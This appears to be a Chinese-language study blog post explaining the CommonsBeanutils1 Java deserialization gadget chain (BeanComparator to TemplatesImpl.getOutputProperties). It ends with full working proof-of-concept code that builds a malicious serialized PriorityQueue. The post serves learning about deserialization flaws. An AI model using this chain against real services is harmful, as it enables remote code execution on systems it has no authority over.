

# 前言

继续反序列化的学习。


# 预备知识

之所以会提到`CommonsBeanutils`的反序列化链，是因为`shiro`是依赖`	commons-beanutils`的，当然这是接下来学习的东西的。

根据名字就知道，类似`Commons-Collections`是对集合的封装和补充，`commons-beanutils`是应用于`javabean`的工具。

至于什么是`JavaBean`，放一下维基百科的定义，很简单：

- 有一个public的无参数构造函数。
- 属性可以透过*get*、*set*、*is*（可替代get，用在[布尔型](https://zh.wikipedia.org/w/index.php?title=布林型&action=edit&redlink=1)属性上）方法或遵循特定命名规则的其他方法访问。
- 可序列化。


第二条说白了就是属性都有访问器和更改器。而commons-beanutils中提供了一个静态方法 `PropertyUtils.getProperty` ，让使用者可以直接调用任 意`JavaBean`的`getter`方法：

```java

    /**
     * <p>Return the value of the specified property of the specified bean,
     * no matter which property reference format is used, with no
     * type conversions.</p>
     *
     * <p>For more details see <code>PropertyUtilsBean</code>.</p>
     *
     * @param bean Bean whose property is to be extracted
     * @param name Possibly indexed and/or nested name of the property
     *  to be extracted
     * @return the property value
     *
     * @throws IllegalAccessException if the caller does not have
     *  access to the property accessor method
     * @throws IllegalArgumentException if <code>bean</code> or
     *  <code>name</code> is null
     * @throws InvocationTargetException if the property accessor method
     *  throws an exception
     * @throws NoSuchMethodException if an accessor method for this
     *  propety cannot be found
     * @see PropertyUtilsBean#getProperty
     */
    public static Object getProperty(final Object bean, final String name)
            throws IllegalAccessException, InvocationTargetException,
            NoSuchMethodException {

        return (PropertyUtilsBean.getInstance().getProperty(bean, name));

    }
```


说白了就是，比如一个类`Person`是个`JavaBean`，它有个`name`属性，则`PropertyUtils.getProperty(new Person(),"name")`则会调用它的`getName()`方法。


这有什么用呢？继续联系上一篇文章的`TransformingComparator`，要去找一个可用的`Comparator`。发现`commons-beanutils`中的`BeanComparator`类的`compare()`方法调用了`PropertyUtils.getProperty`：

```java
    public int compare( final T o1, final T o2 ) {

        if ( property == null ) {
            // compare the actual objects
            return internalCompare( o1, o2 );
        }

        try {
            final Object value1 = PropertyUtils.getProperty( o1, property );
            final Object value2 = PropertyUtils.getProperty( o2, property );
            return internalCompare( value1, value2 );
        }
        catch ( final IllegalAccessException iae ) {
            throw new RuntimeException( "IllegalAccessException: " + iae.toString() );
        }
        catch ( final InvocationTargetException ite ) {
            throw new RuntimeException( "InvocationTargetException: " + ite.toString() );
        }
        catch ( final NoSuchMethodException nsme ) {
            throw new RuntimeException( "NoSuchMethodException: " + nsme.toString() );
        }
    }
```


我的第一反应其实是，咋可能有类的`getter`可以利用呢？但是还是我太年轻了，并不是真的说就是调用对应属性的`getter`。而是，比如这样：

```java
PropertyUtils.getProperty(new Person(),"abc")
```


在我们的利用中，并不是说真的去调用`Person`类的`abc`属性的`getter`，而是调用`getAbc()`，不管这个类有没有`abc`属性。

再联想到之前`TemplatesImpl`的调用链，当时是这样的：


基本上的利用都是从`newTransformer()`开始，但是`getOutputProperties`同样也是`public`，也是以`get`开头：

```java
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```

所以`PropertyUtils.getProperty`就可以调用`TemplatesImpl`类的`getOutputProperties`


# 构造POC

分析完了就可以开始构造了。首先就是`TemplatesImpl`对象：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
```

然后构造`comparator`和优先级队列`PriorityQueue`：

```java
        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);
```

注意开头的`o`要小写。

接下来正常肯定就是`add`两次了，但是如果`add`两次的话，内部就会进行一次`compare()`，会造成影响，所以不直接`add`，而是用反射：

```java
        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
```

之所以还需要设置一下`size`，是因为我们没有`add`，每次`add`都会将`size+1`，所以需要利用反射设置一下。

再序列化和反序列即可：

```java
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        SerializeUtil.unserialize(bytes);
```


构造完毕，放出总的`POC`，和ysoserial的有些区别，但是总的思路是一样的：

```java
package com.summer.cb1;

import com.summer.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.util.PriorityQueue;

public class CommonsBeanUtils1 {
    public static void main(String[] args) throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
        SerializeUtil.setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        BeanComparator beanComparator = new BeanComparator("outputProperties");

        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);


        SerializeUtil.setFieldValue(priorityQueue,"queue",new Object[]{templates,templates});
        SerializeUtil.setFieldValue(priorityQueue,"size",2);
        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        SerializeUtil.unserialize(bytes);

    }
}

```

```java
package com.summer.util;

import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class SerializeUtil {
    public static Object getFieldValue(Object obj, String fieldName) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }
    public static byte[] getEvilCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        return code;
    }

    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```





# 


